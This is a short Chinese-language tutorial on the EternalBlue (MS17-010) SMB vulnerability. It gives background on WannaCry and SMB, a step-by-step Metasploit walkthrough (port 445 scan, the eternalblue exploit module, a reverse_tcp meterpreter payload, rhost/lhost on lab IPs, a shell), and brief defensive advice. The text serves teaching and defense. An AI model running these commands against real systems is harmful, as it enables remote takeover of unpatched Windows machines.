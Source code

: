 # MS17-010

一、永恒之蓝是什么

永恒之蓝爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了wannacry勒索病毒，使全世界大范围内遭受了该勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。不过在该病毒出来不久就被微软通过打补丁修复。

二、什么是SMB协议？

SMB是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。

漏洞利用过程

1、扫描受害者计算机是否开启445危险端口

Nmap -p 445 IP

1、搜索漏洞利用模块

search ms17_010

2、加载漏洞利用模块

use exploit/windows/smb/ms17_010_eternalblue

4、设置攻击载荷

set payload windows/x64/meterpreter/reverse_tcp

5、设置配置选项

show options

6、设置受害者计算机IP地址

set rhost 10.10.10.138

7、设置本地黑客计算机IP地址

set lhost 10.10.10.136

8、开始攻击

exploit

9、获取控制Shell

shell

五、如何防范永恒之蓝攻击

1、关闭445等危险端口

2、安装杀毒软件，并定时更新病毒库
